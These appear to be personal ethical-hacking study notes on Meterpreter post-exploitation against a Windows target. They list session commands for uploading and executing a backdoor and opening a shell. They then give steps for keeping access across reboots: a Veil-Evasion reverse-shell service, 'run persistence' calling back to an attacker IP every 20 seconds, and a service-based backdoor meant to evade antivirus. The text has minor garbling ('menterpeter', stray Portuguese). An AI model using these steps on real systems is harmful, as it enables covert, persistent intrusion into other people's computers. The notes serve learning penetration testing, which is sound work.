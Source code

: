 pwd - gets the current directory

ls - list docs inside that directory

cd - enter, navigate the directories

cat example.txt - read file

download example.txt - download a file on the Kali machine

upload test.exe - you upload a file to the target computer. You can upload a backdoor, per example

execute -f backdoor.exe - execute a file

shell - It makes so you can execute like windows commands in another channel

  

There are a lot of other commands, research it if necessary.

  

Maintain connection 

Until now, we would lose connection with the target computer as soon as it is reinitiated because the process of the backdoor will be terminated.

How to maintain the connection? There are some methods

  

Using veil-evasion

- Use the reverse Shell and make upload and execute on the target computer (Rev_http_service ou Rev_tcp_service). Like this, every time that the computer is iniated, it will try to connect back with you.
    

*Does't always work

  

Using a module that comes with menterpeter

- On the menterpeter session
    
- run persistence -h //see options
    
- run persistence -U <connect like user> -i 20 <vai tentar se connectar comigo a cada 20 segundos> -p 80 <port> -r 10.20.14.203 <my ip>
    
- To receive the connection you have to be using the multihandler
    

*Detectable by antivirus programs

  

//Maintaining access in a way that is not going to be detectable. Use a backdoor that is going to be treated like a service and so it will be executed every time the user starts the computer.

//After the previous steps

- background
    
- use exploit/windows/local/persistence
    
- show options
    